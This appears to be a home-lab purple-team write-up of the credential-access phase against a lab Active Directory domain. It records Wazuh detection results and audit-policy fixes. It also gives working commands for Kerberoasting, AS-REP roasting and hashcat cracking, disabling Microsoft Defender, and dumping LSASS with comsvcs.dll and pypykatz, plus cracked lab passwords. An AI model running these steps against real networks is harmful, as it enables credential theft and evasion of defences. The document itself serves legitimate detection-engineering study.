

# Phase 4: Credential Access

MITRE ATT&CK: T1558.003 T1558.004 T1003.001

## Order of Operations in This Session

Kerberoasting and AS-REP Roasting were run from Kali using john.doe credentials. These do not require a shell on the victim machine. The LSASS dump came later, after getting a local admin shell on win-agent-02 in Phase 5. The phases are numbered per MITRE ATT&CK order but the LSASS work happened after lateral movement was already established.



## 4.1 Kerberoasting T1558.003

```bash
impacket-GetUserSPNs 'lab.local/john.doe:Winter2024!' \
  -dc-ip 192.168.90.121 \
  -request \
  -outputfile /tmp/kerb_final.hash
```

```
ServicePrincipalName   Name        PasswordLastSet
---------------------  ----------  --------------------------
HTTP/backup.lab.local  svc-backup  2026-06-19 15:34:11

$krb5tgs$23$*svc-backup$LAB.LOCAL$lab.local/svc-backup*$f3a7c25a8390a87d...
```

### Cracking: Two Rounds Required

rockyou.txt was still compressed and needed to be extracted first:

```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
```

First crack attempt:

```bash
hashcat -m 13100 /tmp/kerberoast.hash /usr/share/wordlists/rockyou.txt --force
```

```
Status: Exhausted
Recovered: 0/1 (0.00%)
Progress: 14344385/14344385 (100.00%)
```

The original password Backup2024! was not in rockyou.txt. This also applied to the first password attempt password123 which was rejected by the DC's password complexity policy. The domain policy required uppercase, lowercase, numbers, and special characters with a minimum length.

To work around complexity, the domain policy was relaxed on the DC:

```powershell
secedit /export /cfg C:\secpol.cfg
(Get-Content C:\secpol.cfg) -replace "PasswordComplexity = 1","PasswordComplexity = 0" | Set-Content C:\secpol.cfg
secedit /configure /db C:\Windows\security\local.sdb /cfg C:\secpol.cfg /areas SECURITYPOLICY
net accounts /minpwlen:1
```

After disabling complexity, passwords were reset:

```powershell
Set-ADAccountPassword -Identity "svc-backup" `
  -NewPassword (ConvertTo-SecureString "password123" -AsPlainText -Force) -Reset

Set-ADAccountPassword -Identity "svc-legacy" `
  -NewPassword (ConvertTo-SecureString "password123" -AsPlainText -Force) -Reset
```

New hashes were requested and cracked:

```bash
hashcat -m 13100 /tmp/kerb_final.hash /usr/share/wordlists/rockyou.txt --force -O
```

```
Status: Cracked
svc-backup:password123
Time: 0 seconds
```

## 4.2 AS-REP Roasting T1558.004

```bash
impacket-GetNPUsers 'lab.local/' \
  -usersfile /tmp/users.txt \
  -dc-ip 192.168.90.121 \
  -format hashcat \
  -outputfile /tmp/asrep_final.hash
```

```
john.doe:    has pre-authentication, skipping
svc-backup:  has pre-authentication, skipping
svc-legacy:  $krb5asrep$23$svc-legacy@LAB.LOCAL:ee7e8a4a...
administrator: has pre-authentication, skipping
guest:       KDC_ERR_CLIENT_REVOKED (account disabled)
krbtgt:      KDC_ERR_CLIENT_REVOKED (account disabled)
```

Note: bloodhound-python also encountered KDC_ERR_C_PRINCIPAL_UNKNOWN for john.doe during the collection phase and fell back to NTLM authentication automatically. That was not a problem for collection but it meant the Kerberos path was not being used.

```bash
hashcat -m 18200 /tmp/asrep_final.hash /usr/share/wordlists/rockyou.txt --force -O
```

```
Status: Cracked
svc-legacy:password123
Time: 0 seconds
```

## 4.3 LSASS Memory Dump T1003.001

This was performed from the win-agent-02 shell after Phase 5 lateral movement. Documented here since it belongs to credential access.

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Get-MpPreference | Select DisableRealtimeMonitoring
```

```
DisableRealtimeMonitoring: True
```

Without disabling Defender first, the dump commands were blocked mid-execution with the error "script contains malicious content". After disabling:

```powershell
mkdir C:\temp

$lpid = (Get-Process lsass).Id
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump $lpid C:\temp\lsass.dmp full

dir C:\temp\
```

```
Mode     LastWriteTime     Length  Name
----     -------------     ------  ----
-a----   6/19/2026 1:27 AM         lsass.dmp
```

Download to Kali via Evil-WinRM built-in:

```powershell
download "C:\temp\lsass.dmp"
```

```
Info: Downloading C:\temp\lsass.dmp to lsass.dmp
Info: Download successful!
```

Parse on Kali:

```bash
pypykatz lsa minidump ~/lsass.dmp
```

Credentials extracted:

```
LogonSession: Administrator
  Domain: LAB
  NT:   bf27edd1…[REDACTED-NTLM]
  SHA1: fca01b4f…[REDACTED-HASH]
  AES256: a10b12f9…[REDACTED-HASH]

LogonSession: WIN-AGENT-02$
  NT: 5628c6ac…[REDACTED-HASH]
```

pypykatz also reported an ssp_exception for the SSP template (architecture KatzSystemArchitecture.X64, build 20348 not recognized). This did not affect the MSV credential extraction which is where the NTLM hash lives.

## Credential Harvest Summary

| Account | Method | Credential |
|---|---|---|
| john.doe | Password Spray | Winter2024! |
| svc-backup | Kerberoasting, two rounds | password123 |
| svc-legacy | AS-REP Roasting | password123 |
| Administrator | LSASS Dump on win-agent-02 | NTLM bf27edd1…[REDACTED-NTLM] |

## Wazuh Detection

| Technique | Event | Status | What Happened |
|---|---|---|---|
| Kerberoasting | 4769 seven hits | Partial | Event ingested but custom rule 92755 did not fire due to field name mismatch for ticketEncryptionType |
| AS-REP Roasting | 4768 zero hits | Not detected | Kerberos Authentication Service audit subcategory not enabled on DC |
| LSASS Dump | Sysmon EID 10 | False positives tuned | Rule 92900 fired 16 times but all from MsMpEng.exe, not from the actual dump |

The actual LSASS dump from rundll32 comsvcs.dll did not generate a clear standalone alert distinguishable from the Defender noise at the time of the attack. After deploying rule 92901 to suppress Defender events, any future dump from a non-Defender process would be visible.

Fix for AS-REP detection gap:

```powershell
auditpol /set /subcategory:"Kerberos Authentication Service" /success:enable /failure:enable
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable /failure:enable
```
